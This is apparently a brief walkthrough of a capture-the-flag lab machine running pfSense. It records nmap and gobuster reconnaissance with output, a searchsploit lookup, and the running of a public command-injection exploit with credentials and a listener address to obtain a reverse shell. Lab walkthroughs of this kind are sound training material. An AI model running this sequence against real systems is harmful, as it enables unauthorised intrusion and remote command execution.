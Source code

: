 nmap -p80,443 -sV -sC -T4 -Pn -oA 10.10.10.60 10.10.10.60
************************************************************
Would you like to run Nmap or quit to terminal?
------------------------------------------------------------
1 = Run suggested Nmap scan
2 = Run another Threader3000 scan
3 = Exit to terminal
------------------------------------------------------------
Option Selection: 1
nmap -p80,443 -sV -sC -Pn -T4 -oA 10.10.10.60 10.10.10.60
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-20 04:39 EDT
Nmap scan report for 10.10.10.60
Host is up (0.012s latency).

PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time

└─$ gobuster dir -e -u 10.10.10.60:443 -x php,txt,cgi,css,py,html -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -s "204,301,307,401,403" -k -t 64 --timeout 20s

https://10.10.10.60/changelog.txt
https://10.10.10.60/system-users.txt



Version 	2.1.3-RELEASE (amd64)
built on Thu May 01 15:52:13 EDT 2014
FreeBSD 8.3-RELEASE-p16

searchsplot pfsense

pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection            | php/webapps/43560.py


python3 43560.py --username=rohit --password=pfsense --lhost=10.10.14.20 --lport=1337 --rhost=10.10.10.60
CSRF token obtained
Running exploit...
ls
Exploit completed


